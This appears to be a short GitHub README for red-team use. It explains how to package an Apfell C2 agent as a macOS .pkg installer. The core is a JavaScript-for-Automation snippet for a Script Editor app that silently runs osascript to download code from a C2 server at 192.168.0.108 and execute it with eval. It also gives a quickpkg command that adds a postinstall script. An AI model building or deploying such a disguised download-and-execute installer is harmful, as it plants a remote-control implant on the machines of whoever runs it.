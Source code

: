 # Apfell Payload
Making pkg payload from macOS JXA app

**Testing Environment:**  
Ubuntu 18.04.1 running [Apfell v1.4](https://github.com/its-a-feature/Apfell)\
MacOS 10.15.3


## Making the pkg payload
Using this [script](https://github.com/scriptingosx/quickpkg) to make pkg because pkgbuild is fickle.  
Run to build pkg: 
`python quickpkg --install-location /tmp --postinstall ./Scripts/postinstall.sh apfelljxa.app`


## Creating apfelljxa.app with Script Editor
Create apfelljxa.app with the following Javascript:  
`var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("osascript -l JavaScript -e \"eval(ObjC.unwrap($.NSString.alloc.initWithDataEncoding($.NSData.dataWithContentsOfURL($.NSURL.URLWithString('http://192.168.0.108:80/api/v1.4/files/download/8e3e832d-ffc1-416a-8d77-f578759e0c69')), $.NSUTF8StringEncoding)));\" &>/dev/null &");`


Note: Exclude Example folder when building the .pkg
